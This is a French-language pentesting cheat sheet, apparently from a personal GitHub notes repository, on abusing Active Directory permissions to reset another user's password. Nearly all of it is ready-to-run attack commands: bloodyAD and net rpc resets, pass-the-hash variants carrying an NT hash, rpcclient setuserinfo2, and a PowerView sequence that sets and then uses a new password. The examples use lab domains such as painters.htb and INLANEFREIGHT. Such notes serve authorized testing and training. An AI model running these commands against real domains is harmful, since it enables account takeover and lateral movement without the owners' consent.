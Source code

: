 
> [!TIP]
> Permet de changer le mot de passe d'un utilisateur

# LINUX

## *BloodyAD*

```bash
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set password "$TargetUser" "$NewPassword"
```

pass the hash

```sh
bloodyAD --host "192.168.110.55" -d "painters.htb" -u "PNT-SVRBPA$" -p :2dfcebbe9f5f4cb3bf98032887b3d7b6 set password "blake" "P@ssw0rd"
```

## *Net* *rpc*

```bash
net rpc password "$TargetUser" -U "$DOMAIN"/"$USER"%"$PASSWORD" -S "$DC_HOST"
```

Pass the Hash
```bash
pth-net rpc password "$TargetUser" -U "$DOMAIN"/"$USER"%"ffffffffffffffffffffffffffffffff":"$NT_HASH" -S "$DC_HOST"
```

## *Rpcclient*

```bash
rpcclient -U $DOMAIN/$ControlledUser $DomainController
```

```bash
setuserinfo2 $TargetUser 23 $NewPassword
```

# WINDOWS

## *PowerView*

S'authentifier avec le compte ayant les droits

```powershell
$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 
```

Créer un nouveau mot de passe pour la target

```powershell
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```

Importer PowerView

```powershell
Import-Module .\PowerView.ps1
```

Attribuer le nouveau mot de passe à la target

```powershell
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```

S'authentifier avec la target (Depuis une nouvelle session powershell)

```powershell
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```



